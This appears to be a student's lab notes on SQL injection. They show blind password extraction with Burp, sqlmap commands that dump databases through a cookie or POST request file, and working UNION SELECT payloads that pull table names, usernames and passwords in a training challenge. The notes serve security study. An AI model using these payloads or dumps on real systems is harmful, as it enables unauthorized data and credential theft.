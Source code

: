 ==**The best thing to do is:**==
1. **==guess the length of the password==**
2. ==**use the sniper to add a payload also on the number (position of the char)**==
3. ==**perform an attack to extract directly the password**==



### inject cookie in sqlmap
In this case we need to copy the request in a file and use `--level=2` in sqlmap:
```bash
sqlmap -r request_cookie.txt --level=2
```
- ![[Pasted image 20250104154506.png]]


At this point we can run `--dump` to dump the database for us:
```bash
sqlmap -r request_cookie.txt --level=2 --dump
```
- ![[Pasted image 20250104154631.png]]

**==We can also specify the table to dump:==**
```bash
sqlmap -r request_cookie.txt --level=2 --dump -T TABLE_NAME
```
- ![[Pasted image 20250104154721.png]]


# Challenge 
Now we want to solve `injection 0x03`

![[Pasted image 20250104154940.png]]
- we want to inject the search parameter

If we test for:
```sql
x' or 1=1#
```
- we obtain results, we can see all the products.


So now we can start to extract info using a way to understand how many columns has the resulting query:
```sql
valid_name' union select null,null,null, table_name from information_schema.tables #
```
- ![[Pasted image 20250104155337.png]]
We can see that it shows all the tables name.

So we start to extract the data:
```sql 
valid_name' union select null,null,null, username from injection0x03_users #
```
- in general we need to enumerate the columns first

So we try with passwords:
```sql 
valid_name' union select null,null,null, password from injection0x03_users #
```

## solve it with sqlmap
We copy the `POST` search request and we pass it to sqlmap:
- ![[Pasted image 20250104155632.png]]

```bash
sqlmap -r request_challenge.txt -T injection0x03_users --dump
```
